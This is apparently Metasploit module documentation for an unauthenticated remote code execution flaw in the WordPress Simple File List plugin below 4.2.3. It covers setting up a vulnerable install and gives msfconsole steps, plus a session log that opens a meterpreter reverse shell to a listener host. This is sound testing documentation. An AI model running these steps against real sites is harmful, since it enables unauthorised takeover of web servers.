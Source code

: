 ## Vulnerable Application

Simple File List (simple-file-list) plugin before 4.2.3 for WordPress allows remote
unauthenticated attackers to upload files within a controlled list of extensions.
However, the rename function does not conform to the file extension restrictions,
thus allowing arbitrary PHP code to be uploaded first as a png then renamed to php 
and executed.

Download [4.2.2](https://downloads.wordpress.org/plugin/simple-file-list.4.2.2.zip) or another
version < 4.2.3 from [here](https://wordpress.org/plugins/simple-file-list/advanced/).

Install and enable to plugin, no additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/wp_simple_file_list_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Simple File List 4.2.2 on Wordpress 5.4.2 on Ubuntu 20.04

```
msf6 > use exploit/multi/http/wp_simple_file_list_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_simple_file_list_rce) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 exploit(multi/http/wp_simple_file_list_rce) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/http/wp_simple_file_list_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Attempting PNG payload upload
[+] PNG payload successfully uploaded
[*] Attempting to rename from png to php
[+] Rename Successful
[*] Triggering shell
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:32816) at 2020-11-21 08:47:16 -0500
[+] Deleted 87vUo9oy.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
